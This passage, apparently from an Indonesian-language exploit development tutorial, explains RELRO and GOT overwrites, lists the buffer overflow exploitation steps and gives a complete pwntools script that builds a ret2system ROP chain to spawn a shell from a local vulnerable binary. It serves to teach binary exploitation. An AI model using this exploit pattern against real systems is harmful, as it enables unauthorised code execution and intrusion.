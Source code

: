 ### **4. RELRO (Relocation Read-Only)**
- **Implikasi**:
  - Full RELRO: GOT overwrite tidak mungkin
  - Partial RELRO: Masih mungkin GOT overwrite

---

## **Panduan Praktis Exploit Development**

### **Langkah-langkah Eksploitasi Buffer Overflow**
1. **Fuzzing** - Identifikasi titik overflow
2. **Offset Determination** - Cari jarak ke EIP/RIP
   ```bash
   pattern create 200
   pattern offset $eip
   ```
3. **Control EIP** - Verifikasi kontrol alamat return
4. **Bad Character Analysis** - Identifikasi byte terlarang
5. **Shellcode Development** - Buat payload efektif
6. **Exploit Finalization** - Gabungkan semua komponen

### **Contoh Script Exploit Lengkap**
```python
from pwn import *

context.arch = 'i386'
elf = ELF('./vulnerable')

# 1. Crash program & cari offset
offset = 76

# 2. ROP Chain
rop = ROP(elf)
rop.call(elf.sym.system, [next(elf.search(b'/bin/sh'))])

# 3. Bangun payload
payload = flat({
    offset: rop.chain()
})

# 4. Kirim exploit
io = process(elf.path)
io.sendline(payload)
io.interactive()
```

---

## **Mengapa Masih Relevan Mempelajari Stack Overflow?**
